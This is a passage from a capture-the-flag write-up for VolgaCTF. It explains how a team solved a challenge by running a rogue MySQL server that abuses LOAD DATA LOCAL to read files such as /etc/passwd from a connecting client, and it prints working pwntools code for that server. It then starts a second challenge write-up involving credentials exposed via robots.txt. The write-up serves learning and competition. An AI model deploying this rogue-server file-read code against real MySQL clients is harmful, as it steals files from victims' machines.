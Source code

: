 And... we stuck here for hours. We try to decrpyt the MySQL plaintext
password, abuse the MySQL error message as the Flask-SQLAlchemy  
backend will show the error message, but both methods seem impossible.  

After the competition ends, we ask one of the admins Aleksey about the
solution. The main idea behind is
http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/. Attack the
client directly! What a cool idea!

We make it work after the competition, which gets the flag in a jiffy. Here is
the rogue MySQL sever code: Note that it uses
[Python3-pwntools](https://github.com/arthaud/python3-pwntools).

```python  
#!/usr/bin/env python3  
# Python 3.6.4  
from pwn import *

server = listen(3306)

server.wait_for_connection()  
# Server Greeting  
server.send(bytes.fromhex('4a0000000a352e372e32310007000000447601417b4f123700fff7080200ff8115000000000000000000005c121c5e6f7d387a4515755b006d7973716c5f6e61746976655f70617373776f726400'))  
# Client login request  
print(server.recv())  
# Server Response OK  
server.send(bytes.fromhex('0700000200000002000000'))  
# Client SQL query  
print(server.recv())  
# Server response with evil  
query_ok = bytes.fromhex('0700000200000002000000')  
dump_etc_passwd = bytes.fromhex('0c000001fb2f6574632f706173737764')  
server.send(dump_etc_passwd)

# This contains the flag VolgaCTF{hoz3foh3wah6ohbaiphahg6ooxumu8ieNg7Tonoo}  
print(server.recv())  
```

The key is to discover **the client ability** bit in the client login request.
However, we forgot to do that :(  
```  
.... .... 1... .... = Can Use LOAD DATA LOCAL: Set  
```

This task has been solved by only 5 teams.

### Lazy Admin (solved by sasdf & bookgin, written by bookgin)

First, navigate to `robots.txt` and found `unauthorized_users.txt` is
disallowed. The file contains username and password.

Next, we are allowed to send a URL link to admin. However, the hostname will
be overwritten. Thus it's unable to redirect the admin to other websites.
